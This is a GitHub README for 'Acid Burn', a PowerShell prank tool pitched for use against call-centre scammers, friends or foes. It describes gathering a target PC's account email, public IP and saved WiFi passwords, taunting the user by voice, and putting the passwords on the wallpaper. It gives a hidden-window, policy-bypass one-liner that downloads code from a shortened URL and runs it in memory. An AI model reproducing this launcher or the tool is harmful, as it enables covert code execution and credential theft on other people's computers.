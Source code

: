 <!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Acid Burn

A script I put together to torment Call Center Scammers but can be used on your friends as well...or foes.

## Description

This program enumerates a target PC to include Operating System, RAM Capacity, Public IP, and Email associated with the Microsoft account.
The SSID and WiFi password of any current or previously connected to networks.
It determines the last day they changed their password and how many days ago.
Once the information is gathered, the script will pause until a mouse movement is detected.
Then, the script uses Sapi speak to roast their set up and lack of security.
If wifi networks and passwords are detected, the wallpaper will be changed to an image displaying that information.
The generated image will be saved to the desktop and steganography is used to put a hidden message at the bottom of the binary output of the generated image.

## Getting Started

### Dependencies

* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

```
powershell -w h -NoP -NonI -Exec Bypass irm tinyurl.com/AcidBurn5 | iex
```

* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory
* Enumerate and get Full Name, Amount of RAM, Public IP, Wifi Password Length, Wifi Networks and Passwords, Day Password was last changed, Email
* Custom responses have been programmed to roast the target based on the information gathered during enumeration phase 
* Wifi Networks and passwords will be generated into an image that will be saved on the desktop
* Image opened in notepad will reveal a hidden message at the bottom of the binary output
* Script will freeze until a mouse movement is detected 
* Sapi Speak will be used to speak out loud the custom responses 
* Desktop wallpaper will be changed to the image of the targets Wifi Networks and Passwords
* Text file will be left on the target desktop with whatever message you choose

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors 


<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
